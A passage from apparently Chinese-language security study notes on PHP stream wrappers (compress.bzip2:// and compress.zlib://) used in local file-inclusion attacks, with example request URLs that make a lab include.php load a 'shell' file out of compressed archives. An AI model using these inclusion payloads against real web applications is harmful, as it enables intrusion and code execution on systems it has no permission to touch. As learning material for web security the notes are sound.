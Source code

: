 4. 案例

   ```php
   http://192.168.172.150/include.php?file=compress.bzip2://shell.txt.bz2
   ```

![compress：bzip2伪协议](http://113.45.142.235:9001/laffrex/pictures/compress：bzip2伪协议.png)

****

##### h. compress.zlib://

1. 用途

   * 读取压缩包内的文件

2. 使用条件

   > * 知道**相对路径或绝对路径**

3. 使用方法

   ```php
   [URL]?file=compress.zlib://shell.zip#shell.txt
   ```

4. 案例

   ```php
   http://192.168.172.150/include.php?file=compress.zlib://shell.zip#shell.txt
   ```

![compress：zlib](http://113.45.142.235:9001/laffrex/pictures/compress：zlib.png)

![其他PHP伪协议的使用](http://113.45.142.235:9001/laffrex/pictures/其他PHP伪协议的使用.png)

